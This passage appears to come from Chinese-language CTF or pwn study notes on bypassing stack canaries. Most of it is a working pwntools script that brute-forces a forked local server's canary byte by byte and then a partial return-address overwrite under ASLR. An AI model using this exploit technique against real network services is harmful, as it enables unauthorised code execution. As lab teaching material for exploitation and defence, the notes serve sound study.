 ```
取决于程序的布局，你可以通过修改i值来绕过canary的写入，直接写入返回地址
这种情况下，在越界到i的位置时，填入返回地址相对于buf的偏移，你就可以绕过canary来写返回地址了。此时再结合alsr的page align原理，爆破你想跳转的地址！
```
话又说回爆破，其实对`server`端进行canary的爆破。有很多需要考虑的点，这里用一个脚本做替代讲解:<br>
```python
# 1. 首先，默认我们能够拿到server的二进制程序（使用fork分裂进程与网络请求通信），我们只能通过tcpip网络与其交互，首先要解决的是如何调试server的问题
# gdb调试server时，使用 set follow-fork-mode child 告诉 GDB，当遇到 fork 时，停止调试父进程，转而调试子进程。
# 默认情况下，GDB 会分离（detach）未被跟踪的进程。如果你希望同时调试父子进程，可以设置 set detach-on-fork off， 这样，GDB 会在一个进程上设置断点，但两个进程都会被暂停，你可以使用 inferior 命令在它们之间切换。

# 2. 网络请求爆破canary时，需要注意控制请求速度，速度太快容易出奇奇怪怪的问题（比如，dup2执行失败了，导致交互收不到回显；又比如 程序在子进程退出后没有成功回收，造成奇怪问题），实测时，0.1s是一个合理的时间

# 3. 记得调试时候提前看一下canary的值，比对一下爆破是否正确
from pwn import *
# context.log_level="debug"
# context.terminal=["tmux","splitw","-h"]
canary = b""

def brute_force(len,cur_canary):
    for i in range(256):
        r = remote("127.0.0.1",1337)
        r.sendlineafter("Payload size:",str(len))
        payload = b"a"*120+cur_canary+p8(i)
        r.sendafter("Send your payload",payload)
        ret = r.recvall(0.1)
        r.close()
        if b"stack smashing detected" not in ret:
            print("get canary!:",cur_canary+p8(i))
            cur_canary = cur_canary+p8(i)
            break
    return cur_canary


for i in range(1,9):
    canary = brute_force(120+i,canary)
    print("canary get!")
    print(hex(u64(canary.ljust(8,b"\x00"))))
    # pause()
    # sleep(1)

canary = u64(canary)
print("successful get canary!")
pause()
while True:
    for i in range(16):
        r = remote("127.0.0.1",1337)
        r.sendlineafter("Payload size:",b"138")
        payload = b"a"*120+p64(canary)+b"a"*8+p8(0xdd)+p8(i*16+4)
        r.sendafter("Send your payload",payload)
        ret = r.recvall(0.1)
        # print(ret)
        if b"pwn" in ret:
            print(ret)
            break
    pause()
```
